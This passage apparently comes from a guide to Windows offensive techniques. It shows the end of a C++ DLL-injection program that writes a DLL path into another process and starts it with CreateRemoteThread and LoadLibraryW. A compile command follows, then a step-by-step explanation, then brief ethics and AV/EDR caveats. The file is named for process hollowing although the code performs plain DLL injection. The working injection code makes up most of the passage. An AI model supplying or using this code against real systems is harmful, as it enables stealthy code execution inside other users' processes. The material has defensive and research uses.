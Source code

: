 ```cpp
        std::cerr << "WriteProcessMemory failed." << std::endl;
        VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryW, pRemoteImage, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "CreateRemoteThread failed." << std::endl;
        VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    WaitForSingleObject(hThread, INFINITE);

    VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully." << std::endl;
    return 0;
}
```

Compile this into an executable using your preferred compiler:
```sh
cl process_hollowing.cpp
```

### Explanation:
1. **SetPrivilege**: This function enables the SeDebugPrivilege for the current process, which is necessary to manipulate another process's memory.
2. **FindTargetProcessId**: This function finds the target process ID by its name.
3. **main**:
   - Opens the target process.
   - Allocates memory in the target process.
   - Writes the path of the DLL into the allocated memory.
   - Creates a remote thread in the target process to call `LoadLibraryW`, which loads the DLL into the target process.

### Important Considerations:
- **Ethics and Legality**: This code should only be used for ethical purposes, such as within the scope of authorized penetration testing or security research.
- **Privileges**: Running this code typically requires administrative privileges.
- **AV/EDR Solutions**: Modern anti-virus (AV) and endpoint detection and response (EDR) solutions are likely to detect and block this technique.

## C# Reading the PEB
